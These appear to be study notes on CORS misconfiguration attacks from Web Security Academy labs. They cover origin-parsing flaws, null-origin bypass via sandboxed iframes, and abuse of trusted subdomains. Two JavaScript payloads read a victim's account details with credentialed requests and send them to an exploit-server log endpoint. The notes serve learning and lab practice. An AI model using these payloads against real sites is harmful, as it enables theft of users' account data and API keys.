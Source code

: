 ____

![[Pasted image 20250127181648.png]]

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a1100170345bf0c80f01209004f0064.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

____
Errors parsing Origin headers

suppose an application grants access to all domains ending in:
`normal-website.com`
An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`
Alternatively, suppose an application grants access to all domains beginning with
`normal-website.com`
An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

____
The specification for the Origin header supports the value `null`
Using an `<iframe>` with the `sandbox` attribute can bypass certain restrictions and simulate a `null` origin when testing insecure CORS **configurations**
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0ada006c04817488807e76b3005b0066.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location = 'https://exploit-0a9a008904eb743c806375f8019f00e7.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
    };
</script>">
</iframe>
```

___

## Exploiting XSS via CORS trust relationships - Continued

Given the following request:

```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

If the server responds with:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

___

## Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com Origin: http://trusted-subdomain.vulnerable-website.com Cookie: sessionid=...`
```

The application responds with:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```